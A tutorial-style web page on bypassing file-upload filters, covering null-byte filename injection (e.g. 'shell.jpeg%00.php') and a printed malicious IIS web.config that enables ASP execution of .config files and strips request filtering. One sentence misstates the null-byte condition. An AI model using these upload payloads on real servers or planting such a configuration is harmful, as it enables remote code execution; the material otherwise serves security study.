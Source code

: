 ## Null Byte (\x00) Injection

To understand this attack, we need to do some surface level research into what a null byte is, what it is for, and how it works.

As per Wikipedia:

> The null character is a control character with the value zero. It is present in many character sets, including those defined by the Baudot and ITA2 codes, ISO/IEC 646, the C0 control code, the Universal Coded Character Set, and EBCDIC. It is available in nearly all mainstream programming languages.

### What is a null byte for?

A null character is a character with all its bits set to zero. Therefore, it has a numeric value of zero and can be used to represent the end of a string of characters, such as a word or phrase. This helps programmers determine the length of strings.

### How can this be exploited?

As previously stated, the null byte character can be used to define string termination, meaning when certain interpreters reach a null-byte within a string, it will expect that to be the end of the string, even if there are characters after it. This leads to a whole variety of confusion-based attacks, such as the following.

Imagine an application blocks certain extensions from being saved onto the server, but the application takes null-bytes into account when checking the extension, we could submit something along the lines of `shell.jpeg%00.php`.

Since the server will check the string, but hit the null-byte, it will only read up to “.jpeg”, and pass it as valid, although the file would be saved onto the server as shell.jpeg%00.php, which is then accessible to execute commands.

Older versions of PHP have been found to be vulnerable to said attack, for more information, see [here](https://owasp.org/www-community/attacks/Embedding_Null_Code)

## Web.config File Upload

Within IIS web servers, if the application allows you to upload files named ‘web.config’, you can achieve a variety of malicious attacks, including XSS, RCE, arbitrary file downloads and more.

Examples of malicious web.config files are widely available on the internet, although below I have included my favourite, from [gazcbm on GitHub](https://gist.github.com/gazcbm/ea7206fbbad83f62080e0bbbeda77d9c).

```
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
```